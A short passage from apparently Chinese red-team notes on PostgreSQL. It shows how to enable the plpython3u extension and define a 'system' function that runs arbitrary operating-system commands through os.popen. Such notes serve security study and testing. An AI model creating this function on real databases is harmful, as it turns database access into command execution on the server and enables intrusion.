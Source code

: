 安装完毕后记得注册下扩展

```sql
create extension plpython3u;
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/26.png)

查看是否支持 plpython3u

```
select * from pg_language;
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/27.png)

创建一个 UDF 来执行我们要执行的命令

```sql
CREATE FUNCTION system (a text)
  RETURNS text
AS $$
  import os
  return os.popen(a).read()
$$ LANGUAGE plpython3u;
```
